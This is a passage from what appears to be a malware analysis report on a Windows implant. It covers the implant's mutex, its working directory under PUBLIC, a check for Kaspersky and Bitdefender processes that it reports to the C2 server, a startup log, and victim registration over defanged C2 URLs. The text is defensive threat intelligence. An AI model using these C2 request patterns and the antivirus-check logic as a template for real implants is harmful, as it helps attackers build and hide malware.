 Creates a mutex named “Global\\{2194ABA1-BFFA-4e6b-8C26-D1BB20190312}” during initialization of an MFC CWnd class instance.
Expands the environment variable ‘PUBLIC’ to be used as the base directory for the malware’s work repository, which is located under ‘Appdata\Windows’.
Checks the running processes on the victim machine to look for ‘exe’ (Kaspersky) or ‘bdagent.exe’ (Bitdefender). If one of them is found it will be indicated using a numeric value passed to the server via a parameter named ‘k’, using a GET request to the URL as outlined below. The presence of a security solution from Kaspersky will be denoted with the value ‘1’ and Bitdefender with the value ‘3’. However, no change in the malware’s behavior was observed based on this check.





hxxp://C2/ech/client.php?u=[computername]_[username]&k=[AV_value]




1

hxxp://C2/ech/client.php?u=[computername]_[username]&k=[AV_value]





Creates a log file named ‘nfo’ with information as shown below (time of the implant’s initiation and its execution path).





<br><mark>Hello: Fri Mar  5 18:56:27 2021
</mark><br><mark>C:\Users\[username]\AppData\Local\Temp\sample.exe</mark>




12

<br><mark>Hello: Fri Mar  5 18:56:27 2021</mark><br><mark>C:\Users\[username]\AppData\Local\Temp\sample.exe</mark>





Initiates communication with the C2 server by issuing an HTTP POST request, registering the victim as a new client using the URL scheme and body content specified below:





POST hxxp://[C2 address]/i.php?u=[computername]_[username]&i=[IP address]

p=<br><b>Windows Title1</b><br><br><b>Windows Title2</b><br>




123

POST hxxp://[C2 address]/i.php?u=[computername]_[username]&i=[IP address] p=<br><b>Windows Title1</b><br><br><b>Windows Title2</b><br>



